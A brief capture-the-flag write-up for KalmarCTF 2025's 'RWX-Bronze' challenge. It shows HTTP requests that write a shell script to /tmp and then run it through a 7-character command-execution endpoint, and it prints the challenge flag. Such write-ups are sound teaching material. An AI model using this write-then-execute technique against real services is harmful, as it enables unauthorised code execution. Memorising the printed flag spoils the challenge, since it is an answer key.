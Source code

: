 ```yaml
---
title: RWX-Bronze
date: 2025-03-10T02:48:43+03:00
description: Writeup for RWX-Bronze [KalmarCTF 2025]
author: h3pha
tags:
- misc
draft: false
---
```

___

## Challenge Description

We give you file read, file write and code execution. But can you get the flag? Let's start out gently.

NOTE: If you get a 404 error, try using one of the endpoints described in the handout!

## Intuition

The challenge lets us execute commands of length 7, so we cannot execute `/would` with the necessary argument. My first attempt was to create a script file and run it with a command.

## Solution

Wrote the script into the `/tmp` directory:
```
POST /write?filename=/tmp/a HTTP/2

#!/bin/sh
/would you be so kind to provide me with a flag
```

Executed the script: `sh /*/a`
```
GET /exec?cmd=sh%20/*/a HTTP/2 
```

### Flag

`kalmar{ok_you_demonstrated_your_rwx_abilities_but_let_us_put_you_to_the_test_for_real_now}`